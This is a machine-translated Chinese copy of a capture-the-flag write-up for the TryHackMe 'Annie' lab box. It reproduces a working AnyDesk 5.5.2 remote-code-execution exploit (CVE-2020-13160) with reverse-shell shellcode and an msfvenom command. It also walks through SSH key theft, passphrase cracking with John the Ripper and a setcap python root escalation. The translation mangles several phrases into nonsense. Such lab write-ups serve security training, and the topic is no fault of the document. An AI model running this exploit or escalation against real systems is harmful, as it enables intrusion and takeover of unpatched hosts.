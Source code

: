 # TryHackme 的安妮

> 原文：<https://infosecwriteups.com/annie-from-tryhackme-edfea2b78eb5?source=collection_archive---------0----------------------->

## 远程访问有不同的风格。

![](img/8d3dea1351aed58520e722c716364b26.png)

大家好，我是 Hac，今天我们要做的是 Annie，这是 Tryhackme 上的一个“中型”盒子。我认为它的难度是“容易”的，因为你只需要找到一个合适的港口来获得最初的立足点。所以不要浪费任何时间，让我们开始吧。

Nmap 扫描

```
root@ip-10-10-98-158:~# sudo nmap -sV -p- 10.10.226.112 -oA nmap --min-rate 1000Starting Nmap 7.60 ( [https://nmap.org](https://nmap.org) ) at 2022-07-06 15:18 BST
Nmap scan report for ip-10-10-226-112.eu-west-1.compute.internal (10.10.226.112)
Host is up (0.00042s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE         VERSION
22/tcp    open  ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
7070/tcp  open  ssl/realserver?
40293/tcp open  tcpwrapped
MAC Address: 02:39:05:FF:91:67 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelService detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 150.83 seconds
```

我们对端口 7070 和 40293 了解不多。所以我在谷歌上快速搜索了一下，发现 7070 端口通常运行 any-desk，这是一个远程访问软件。

 [## 端口 7070 (tcp/udp)

### 已知端口分配和漏洞 7070 tcp real audio real audio any desk 远程桌面软件使用 TCP 端口…

www.speedguide.net](https://www.speedguide.net/port.php?port=7070) 

之后，我搜索了与任何桌面软件相关的漏洞。**CVE-2020–13160**在谷歌搜索中排名第一，所以我想试试看。

![](img/0b129f3591586eb630c067364a26b828.png)[](https://www.exploit-db.com/exploits/49613) [## 攻击性安全利用数据库档案

### AnyDesk 5.5.2 -远程代码执行。CVE-2020-13160。Linux 平台的远程利用

www.exploit-db.com](https://www.exploit-db.com/exploits/49613) 

我利用这个漏洞做了一点小小的修改(你需要改变 ip 地址和外壳代码。

```
#!/usr/bin/env python
import struct
import socket
import sysip = 'IP address' #change this
port = 50001def gen_discover_packet(ad_id, os, hn, user, inf, func):
  d  = chr(0x3e)+chr(0xd1)+chr(0x1)
  d += struct.pack('>I', ad_id)
  d += struct.pack('>I', 0)
  d += chr(0x2)+chr(os)
  d += struct.pack('>I', len(hn)) + hn
  d += struct.pack('>I', len(user)) + user
  d += struct.pack('>I', 0)
  d += struct.pack('>I', len(inf)) + inf
  d += chr(0)
  d += struct.pack('>I', len(func)) + func
  d += chr(0x2)+chr(0xc3)+chr(0x51)
  return d#change this 
#msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x63\x40\x04"
shellcode += b"\x9d\x65\x60\xc6\xfb\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x09\x69\x5c\x04\x0f"
shellcode += b"\x62\x99\x91\x62\x1e\x0b\x98\x2d\xf7\x8e\x42"
shellcode += b"\x61\x40\x15\xc1\x6f\x6a\xa4\x65\x32\x08\x8d"
shellcode += b"\x7b\x0f\x70\x9c\x91\x49\x18\x0b\x98\x0f\x63"
shellcode += b"\x98\xb3\x9c\x8e\x6e\xbc\x3d\x6f\xc3\x8e\x95"
shellcode += b"\x2a\x3f\xc5\xfc\x28\x7d\xd4\x01\x29\x6a\xb2"
shellcode += b"\x16\x08\xc6\xa8\x2b\xc9\xe3\xcf\x32\x28\x4f"
shellcode += b"\x1d\x6c\x45\x04\x9d\x65\x60\xc6\xfb"print('sending payload ...')
p = gen_discover_packet(4919, 1, '\x85\xfe%1$*1$x%18x%165$ln'+shellcode, '\x85\xfe%18472249x%93$ln', 'ad', 'main')
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(p, (ip, port))
s.close()
print('reverse shell should connect within 5 seconds')
```

我想知道 50001 号港口。我们在 nmap 扫描中没有找到这个端口，我运行了两次 nmap，但是没有找到。我再次运行 Nmap UDP 扫描，我得到了端口。

![](img/d1037a0423b1339cdedb61ff0accc474.png)

让我们运行我们的利用。确保您已经在利用脚本中进行了适当的更改，并且 netcat 监听器已打开。

我得到了贝壳……

![](img/04251939b8f9c002040e3c04af3814d4.png)

之后我复制了 **/home/annie/的内容。ssh/id_rsa** 到我们的本地机器。我试图登录，但我们需要一个密码，我们没有。我用 **ssh2john 和约翰**开膛手得到密码短语。

![](img/90f726b4a85072d36f826d7fb0f694b3.png)

然后我和约翰一起吃了大麻。

![](img/fd77de9ad50f0cb3705b22ba80bc5b4f.png)

现在我们可以 ssh 到这个盒子中(确保 id_rsa 文件 chmod 600 有适当的权限)。

**是时候将我们的权限提升至根用户了………………。**

我们可以使用 setcap 功能将我们的权限提升到 root 用户。

![](img/372ef08ae6daeb759cf8ca9548ce1776.png)

**获取根的步骤:-**

1:-将 python3 复制到/tmp 或任何其他目录。

```
cp /usr/bin/python3 .
```

2:-启用功能

```
$ /sbin/setcap cap_setuid+ep /tmp/python3
```

3:-运行 python

```
$ ./python3 -c "import os;os.setuid(0);os.system('/bin/bash')"
```

而且我们终于得到了 shell 作为 root 用户！！！！

![](img/5c10093100633e555c1a49c8f2faf0aa.png)

我希望你喜欢这篇文章。如果你有任何问题，你可以通过推特问我[https://twitter.com/Hac10101](https://twitter.com/Hac10101)
